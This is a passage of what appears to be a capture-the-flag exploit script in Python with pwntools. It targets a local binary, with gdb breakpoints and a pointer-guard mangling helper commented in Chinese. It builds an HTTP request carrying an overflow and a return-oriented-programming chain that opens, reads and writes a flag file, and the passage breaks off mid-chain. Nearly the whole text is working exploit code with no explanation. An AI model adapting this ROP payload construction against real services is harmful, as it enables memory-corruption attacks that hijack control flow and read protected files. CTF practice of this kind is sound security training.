 ```python
# p=process(['seccomp-tools','dump','/home/zp9080/PWN/pwn'])
elf = ELF("/home/zp9080/PWN/pwn")
libc=elf.libc
gdb_script = '''
b pthread_create
c
finish
thread 2
b *0x401EC2
c
b __pthread_cleanup_upto
c
'''

def dbg():
    gdb.attach(p,gdb_script)  
    pause()

def circular_left_shift(value, shift):
    # 确保value是一个64位整数
    value &= 0xFFFFFFFFFFFFFFFF
    # 执行循环左移操作
    shifted_value = ((value << shift) & 0xFFFFFFFFFFFFFFFF) | (value >> (64 - shift))
    return shifted_value

def ptr_g(value, pg):
    val = value ^ pg
    return circular_left_shift(val, 0x11)

# dbg()
ret_addr = 0x000000000040101a
pop_rdi = 0x00000000004028f3
pop_rsi_r15 = 0x00000000004028f1
pop_rdx = 0x000000000040157d
buffer = 0x0405140
open_plt = 0x4013C0
read_plt = 0x401300
write_plt = 0x4012A0
flag_addr = 0x40338A

header = b"GET / HTTP/1.1\r\n"
header+= b"content-length:2848\r\n"

#ORW
rop_payload = b"a"*(0x20-1)+b":"
rop_payload+= p64(ret_addr)*0x4
rop_payload+= p64(pop_rdi)
rop_payload+= p64(flag_addr)
rop_payload+= p64(pop_rsi_r15)
rop_payload+= p64(0x0)
rop_payload+= p64(0x0)
rop_payload+= p64(open_plt)
rop_payload+= p64(pop_rdi)
rop_payload+= p64(0x3)
rop_payload+= p64(pop_rsi_r15)
rop_payload+= p64(buffer+0x100)
rop_payload+= p64(0x0)
rop_payload+= p64(pop_rdx)
rop_payload+= p64(0x200)
rop_payload+= p64(read_plt)
rop_payload+= p64(pop_rdi)
rop_payload+= p64(0x1)
rop_payload+= p64(pop_rsi_r15)
```